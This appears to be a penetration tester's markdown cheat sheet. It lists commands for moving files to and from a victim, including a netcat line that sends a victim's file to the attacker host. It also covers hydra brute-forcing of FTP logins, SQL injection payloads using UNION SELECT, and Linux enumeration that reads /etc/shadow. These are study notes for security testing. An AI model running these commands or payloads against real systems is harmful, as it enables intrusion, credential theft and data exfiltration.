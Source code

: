 ## Sending files
Download local file from current directory to remote host, through python server  
`sudo python3 -m http.server 80` #Host  
`curl -O http://192.168.0.2/<File Name>` #Victim  
  
Send file from remote host back to my computer  
`nc -lvp 4444 >  linpeasCuiteur.txt` #Host  
`cat linpeas.txt | nc 192.168.0.2 4444` #Victim  

Store executable file output into a text file  
`./executable.sh -a > exectuable.txt`  

## nmap commands
- `nmap -sV -p <list of ports> <IP address>`: Lists all the services running on the ports

## hydra commands
- `hydra -C <username & password file> ftp://<IP address>`: Attempts to log in to the FTP service at the specified IP address using a list of username and password combinations provided in the file.

## skipfish commands
- `skipfish -o <Output file> <website url>`: Crawls the website to find all available directories
- `skipfish -o <Output file> -A <user>:<password> <website url>`: Crawls while logged in with HTML credentials

## SQL Injection
### SQL Injection in search fields
Lets say the search page is handled by a file named sql.php and the parameter is search.
Sql.php?search=pentesting  
First thing we try is to search with single quote '  
`Sql.php?search='`  
If it retruns an error, then we know its vulnerable.
Our next step is to determine the number of columns starting from running a normal query
on the search box to get an idea.  
Finding the number of columns:  
`Sql.php?search=test' order by 1-- -` [In the search field: `test' ORDER BY 1-- -`]  
or  
`Sql.php?search=test' order by 1--` [In the search field: `test' ORDER BY 1--`]  
We keep incrementing the number until we hit an error which indicates the number of columns.

Then we search for something similar to that below:  
`Sql.php?search=pentesting' union select 1,1,1,1,1,1#` [In the search field: `pentesting' UNION SELECT 1,1,1,1,1,1-- -`]  
or  
`Sql.php?search=pentesting' AND 1 = 0 UNION ALL SELECT 1,1,1,1,1,1 FROM information_schema.tables WHERE 1=0 OR 1=1-- `  
We continue adding '1's untill we don't receive any error from the page.
Only then we know how many columns by counting the '1's.

Then we try to find the database name, table names, columns of target table  
`Sql.php?search=pentesting' union select 1,database(),@@version,1,1,1#`  
or  
`Sql.php?search=pentesting' and 1 = 0 union all select 1,database(),@@version,1,1,1 from information_schema.tables where 1=0 OR 1=1-- -`  

`Sql.php?search=pentesting' union select 1,table_name,1,1,1,1 from information_schema.tables#` [In the search field: `pentesting' UNION SELECT 1,table_name,1,1 FROM information_schema.tables-- -`]

## Privilege escalation (Linux)
https://www.youtube.com/watch?v=ZTnwg3qCdVM
### System Enumeration
First get OS version, such that you can look for exploits of it and to be able to keep track of it  
`uname -a`  
Get info of the architecture, so you know vendor type, amount of cores and threads, etc. (good to know for some exploits)  
`lscpu`  
Check what services are running.  
`ps aux`  

### User Enumeration
To find out who we are, what permissions we have and what we are capable of doing.  
To check our username, what id´s everybody on the system has, and what sudo commands we can run, we use the following commands  
`whoami` `id` `sudo -l`  
We can check for other users  
`cat /etc/passwd | cut -d : -f 1`
We should look if we have access to any sensitive files, such as the shadow file
`cat /etc/shadow`  
Look at history is available, as in commands done by user  
`history`  

### Network Enumeration
To better understand the what our IP architecture is, what we're interacting with and what open ports may be available internally the might not be exposed externally.  
Check first out IP-address. We get information if it might be dual homed, communication with multiple networks. Then we'll get multiple IP-addresses. Check the "inet" address.  
`ifconfig` or `ip a`  
We can also use this command to check if the machine is communicating with another. We'll see our network first with the bits masked, next to it we can see our sourced adress ("src") which is our actually IP-address.
Then underneath we can see which address it's sourced through (Which is on of it's routes).  
`ip route`  
Another way to look at that too is with ARP tables. ARP tables will tell us who we're communicating with and maybe there's a machine that we're talking with kind of back and forth.  
`arp -a` or `ip neigh`  
Lastly we want to identify the ports what ports are open as well as what Communications exist. If there are machines communicating with the machine we're on we might be able to find an exploit.
We want to check if maybe any port is open only for the localhost ("127.0.0.1"), since then it won't be open externally.  
`netstat -ano`
